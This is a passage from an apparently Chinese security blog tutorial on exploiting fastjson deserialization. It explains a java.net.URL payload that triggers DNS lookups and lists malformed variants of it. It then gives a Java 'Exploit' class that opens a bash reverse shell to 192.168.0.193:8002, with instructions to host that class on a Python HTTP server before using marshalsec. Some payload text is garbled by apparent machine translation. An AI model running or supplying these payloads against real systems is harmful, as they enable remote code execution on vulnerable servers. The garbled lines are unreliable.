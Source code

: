 两段合起来就得到了最终的有效载荷。

方法三：利用java.net.URL
------------------------

`java.net.URL`类也在`IdentityHashMap`中，和上面一样无视`checkAutoType`检查。

    {{“ @type”：“ java.net.URL”，“ val”：“ http：// dnslog”}：“ x”}

来源于`@retanoj`状语从句：`@threedr3am`两位师傅的启发，其原理和ysoserial的中`URLDNS`这个小工具的原理一样。

**简单来说就是向HashMap压入一个键值对时，HashMap需要获取键对象的哈希码。当键对象是一个URL对象时，在获取它的**`hashcode`**期间会调用**`getHostAddress`**方法获取主机，这个过程域名会被解析。**

2 1.png

URL对象hashcode的获取过程

fastjson解析上述payload时，先反序列化出`URL(http://dnslog)`对象，然后将`{URL(http://dnslog):"x"}`解析为一个HashMap，域名被解析。

`@retanoj`在[问题](https://github.com/alibaba/fastjson/issues/3077)中还构造了好几个畸形的有效载荷，虽然原理都是一样的，但还是挺有意思的，意识到了师傅对fastjson词法分析器透彻的理解。

    {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}
    Set[{"@type":"java.net.URL","val":"http://dnslog"}]
    Set[{"@type":"java.net.URL","val":"http://dnslog"}
    {{"@type":"java.net.URL","val":"http://dnslog"}:0


--------

漏洞利用：

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/192.168.0.193/8002 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

通过python命令放到外网环境中,默认监听端口8000。
Python2 ：python2 -m SimpleHTTPServer 8000
Python3 ：python3 -m http.server 8000

![image-20211016191536355](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211016191536355.png)

![image-20211016191959910](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016191959910.png)

接下来就需要使用到java的反序列化工具marshalsec
